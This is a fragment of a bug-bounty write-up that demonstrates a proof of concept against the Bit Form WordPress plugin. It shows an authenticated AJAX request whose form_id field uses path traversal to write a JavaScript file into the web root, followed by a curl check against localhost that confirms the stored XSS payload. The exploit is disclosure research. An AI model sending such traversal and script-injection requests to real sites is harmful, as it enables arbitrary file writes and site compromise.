 ```http
POST /wp-admin/admin-ajax.php?action=bitforms_add_custom_code&_ajax_nonce=780bef0a26 HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 119
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724553914%7C9pNaCWccoYSDyYoiSO4e07YnorNyXoFaKEF0H5QnZkX%7C58c18d2f8b6415954d2a339d57d57b3c1fe7bc913f22130d5780f0d2a85c49f9; wp-settings-time-1=1724390118; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724553914%7C9pNaCWccoYSDyYoiSO4e07YnorNyXoFaKEF0H5QnZkX%7Cf943227a153b21afbc65dbd93c78032c2ad0055a49af9c5fedf5d1281404dbd7

{"form_id":"/../../../../../../../../../../../var/www/html/poc","customCodes":{"JavaScript":"alert(document.domain);"}}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240823141140.png)

```shell
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/stored-xss)-[2024.08.23|14:10:24(HKT)]
└> curl http://localhost/poc.js
alert(document.domain);
```

Nice! It worked!
